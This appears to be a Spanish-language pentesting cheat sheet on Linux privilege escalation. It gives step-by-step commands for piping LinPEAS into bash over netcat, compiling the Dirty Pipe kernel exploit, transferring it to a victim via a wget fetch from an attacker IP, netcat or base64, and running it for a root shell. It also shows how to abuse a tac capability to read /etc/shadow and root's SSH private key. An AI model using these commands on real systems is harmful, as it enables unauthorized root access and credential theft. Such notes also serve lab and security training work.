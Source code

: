 
- **LinPEAS github** ->  Lo descargamos y al momento de ejecutarlo, nos muestra vias potenciales para escalar privilegios, debemos hacerlo desde una bash
	- Comando -> **nc -nlvp 4646 | bash** Para que al momento de recibir el codigo, lo interprete y lo ejecute 
	- Comando -> **curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > /dev/tcp/IP Victim/4646**
Si te reporta algunas cosas en naranja, quiere decir que son vias potenciales para escalar privilegios

Con Dirty-Pipe del siguiente repo https://github.com/arinerron/CVE-2022-0847-DirtyPipe-Exploit Esto servira a partir del Kernel 5.8
Debemos de traerlo a nuestra maquina de atacnte 
- Comando -> **git clone https://github.com/arinerron/CVE-2022-0847-DirtyPipe-Exploit** 
- Comando -> **gcc exploit.c -o exploit** Creas el compilado
- Comando -> **python3 -m http.server 80** Pasas el compilado a la maquina victima, colocando un servidor 
Debemos de colocarnos el maquina victima en la carpeta de /tmp/
- Comando -> **wget http://10.10.14.12/exploit** En la maquina victima cargas el compilado 

Si no tiene wget lo podemos hacer con Netcat 
- Comando -> **nc -nlvp 443 < exploit** Mandaremos el archivo por netcat, desde nuestra maquina de atacante
- Comando -> **nc 10.10.14.12 443 > exploit** En la maquina victima cargamos el archivo, Colocamos la IP de nuestra maquina de atacante

Si no funciona lo mandamos por base64
- Comando -> **base64 -w 0 exploit; echo** Con echo podremos ver el resultado de la codificacion en base64, solo debmos copiarlos y lo pegamos en la maquina victima  
- Comando -> **echo "resultado del comando de arriba" | base64 -d > dirtypipe** Hacemos que lo decodifique con base64 y lo colocamos en un archivo llamado DirtyPipe
- Comando -> **chmod +x dirtypipe** Le damos permisos de ejecucion 
- Comando -> **./dirtypipe** Lo ejecutamos esperando a que nos de Shell como Root

- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Encontrar **/usr/local/bin/backup** Es un script que podemos usar
	
- Comando -> **find / -perm -4000 -user root -ls 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root, tambien nos reportara el usuario, grupo y permisos




Otra que podemos encontrar en las capabilities es un tac: El tac es un cat pero te muestra el contenido al reves
	***/usr/bin/tac* = cap_dac_read_search+ei** Con esta capabilitie podemos utilizar ese comando para poder leer cualquier archivo privilegiado del sistema
	- Comando -> **tac < File>** Podemos colocar un archivo de alguna ruta como /etc/shadow, /root/.ssh/id_rsa, etc... o un file directamente y lo hara como root 
	Tambien pordemos conectarnos al usuario root obteniendo su clave privada de la siguente manera:
			- Comando -> **tac /root/.ssh/id_rsa | tac** Podemos ver la clave privada del usuario root, colocarla en un archivo que se llame id_rsa y asi podernos conectar por ssh con esa id_rsa, colocandole el privilegio 600, le ponemos doble tac para que se vea como un cat 
